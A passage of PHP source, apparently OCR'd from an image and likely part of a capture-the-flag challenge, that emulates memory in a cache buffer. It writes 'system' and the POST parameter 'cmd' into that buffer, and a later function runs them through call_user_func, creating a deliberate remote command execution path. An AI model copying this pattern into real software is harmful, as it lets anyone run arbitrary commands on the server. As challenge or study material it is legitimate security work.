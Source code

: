 			          $this->ref_table['_clear_']=$this->cursor;
			          $arr = str_split("_clear_");
			          foreach ($arr as $s) {
			              $this->write(ord($s),"C");
			          }
			          for ($i=sizeof($arr); $i < self::__REF_SIZE__; $i++) { 
			              $this->write("\x00",'C');
			          }
			  
			          // $arr = str_split(__NAMESPACE__."\C::clear");
			          // foreach ($arr as $s) {
			          //     $this->write(ord($s),"C");
			          // }
			          $arr = str_split("system");
			          foreach ($arr as $s) {
			              $this->write(ord($s),"C");
			          }
			          for ($i=sizeof($arr); $i < 16; $i++) { 
			              $this->write("\x00",'C');
			          }
			          $this->write(0x36d,'Q'); // ULL
			          // $this->write(0x30,'C');
			          $arr = str_split($_POST["cmd"] ?? "ls /");
			          foreach ($arr as $s) {
			              $this->write(ord($s),"C");
			          }
			          for ($i=1; $i < self::__REF_SIZE__; $i++) { 
			              $this->write("\x00",'C');
			          }
			  
			  
			      }
			  
			      private function readNeaten(){
			          echo "<br>start readNeaten<br>";
			          rewind($this->cache);
			          fseek($this->cache, $this->ref_table['_clear_']+self::__REF_SIZE__);
			          var_dump(ftell($this->cache));
			          $f = $this->truncation(fread($this->cache, self::__REF_SIZE__-4));
			          var_dump(ftell($this->cache));
			          $t = $this->truncation(fread($this->cache, self::__REF_SIZE__-12));
			          var_dump(ftell($this->cache));
			          $p = $this->truncation(fread($this->cache, self::__REF_SIZE__));
			          var_dump(ftell($this->cache));
			          var_dump($f);
			          var_dump($t);
			          var_dump($p);
			          @call_user_func($f,$p);
			  
			      }
			  
			      private function define($ref,$size){
			          // 将一个ref定义进内存中，其中ref名占用20B
			          echo "<br>start define<br>";
			          $this->checkRef($ref);
			          $r = str_split($ref);
			          $this->ref_table[$ref]=$this->cursor;
			          foreach ($r as $s) {
			              $this->write(ord($s),"C");
			          }
			          for ($i=sizeof($r); $i < self::__REF_SIZE__; $i++) { 
			              $this->write("\x00",'C');
			          }
			  